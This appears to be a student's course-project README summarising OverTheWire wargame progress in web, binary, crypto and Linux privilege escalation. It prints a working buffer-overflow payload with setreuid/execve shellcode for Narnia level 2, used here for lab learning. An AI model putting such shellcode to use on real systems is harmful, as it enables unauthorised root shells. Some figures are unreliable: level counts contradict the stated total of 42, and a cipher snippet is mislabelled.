

# Overthewire

## Project Overview and Background

This project entailed completing four security wargames on the OverTheWire platform:

1. Natas (34 levels): Web application security (SQLi/XSS/file inclusion)

2. Narnia (7 levels): Binary exploitation (buffer overflow/environment variable injection)

3. Krypton (7 levels): Cryptanalysis (ROT13/Vigenère/stream cipher)

4. Leviathan (7 levels): Linux privilege escalation (symlink abuse/session hijacking)

### Technical Context

According to the 2024 OWASP Top 10 Report, 75% of web vulnerabilities stem from input validation failures (Natas focus). MITRE ATT&CK framework confirms binary vulnerabilities (Narnia focus) remain primary APT entry points. This project validates core course concepts through practical exploitation.

## Key Achievements

### Natas: Web Exploitation

1. HTTP header injection (L4)
2. PHP session fixation (L18-19)
3. File upload bypass (L12-13)
4. Referrer attack (L4)

### Narnia: Binary Security

1. Custom shellcode (L1)
2. Stack offset calculation (L2/4)
3. Symlink privilege escape (L3)

### Krypton: Cryptanalysis

1. Vigenère known-plaintext (L4)
2. Stream cipher CPA (L6)

### Leviathan: System Security

1. Hardlink abuse (L2)
2. SUID exploitation (L5)

## Breakthrough

### Precision Stack Overflow (Narnia L2)

1. Calculated 128-byte offset via GDB, crafted setreuid() shellcode for privilege retention:

```bash
$ ./narnia2 $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\x28\xd5\xff\xff")
```

2. Stream Cipher Break (Krypton L6)
   Implemented chosen-plaintext attack (CPA) to derive keystream:

```python
ciphertext = 'PNUKLYLWRQKGKBE'
key = 'EICTDGYIYZKTHNSIRFXYCPFUEOCKRN'

for c, k in zip(ciphertext, key):
    p = ord('A') + ((ord(c) - ord(k)) % 26)
    print(chr(p), end='')

print()
```

## Methodology and Problem Resolution

### Time Allocation



### Critical Challenges & Solutions

1. Natas blind SQLi inefficiency (L15)  
   Since the community edition of Burp Suite does not allow multiple attacks to be performed simultaneously, it is very inefficient. So I wrote a script that runs multiple identical scripts simultaneously to try different port ranges, greatly improving efficiency.
2. Leviathan `gdb` replaces brute-force (L6)
   I use static ELF analysis to locate password check instruction. [Leviathan/Writeups](./Leviathan/Writeups.md)

## Reflection

### Technical Insights

1. Theory-Practice Convergence:
   Krypton L4 Vigenère crack validated Kerckhoffs' Principle - security should rely solely on keys, not algorithm secrecy
2. Key Breakthrough:
   Natas L11 XOR encryption reverse-engineering (code) exposed critical key reuse vulnerability

### Skill Gaps & Improvement Plan

1. Assembly Deficiency: Over-relied on pattern-matching in Narnia exploits
   Action: Studying Practical Binary Analysis for disassembly mastery
2. Cryptography Math Gap: Suboptimal stream cipher attacks
   Action: Enrolled in Coursera's Number Theory for Cryptography

## Conclusion and future development

### Project Value

Completion of 42 levels demonstrates core competency attainment:

1. Integrated web/binary/crypto attack chains
2. Theory-to-production vulnerability analysis (avg. 33 min/level)

### Optimization Roadmap

1. Develop unified vulnerability scanner integrating all techniques
2. Build Dockerized lab environments for educational use
3. Submit 2 vulnerability patches to OverTheWire

## Appendix

1. [Github - COMP6841 Project](https://github.com/bingo-h/comp6841-project)
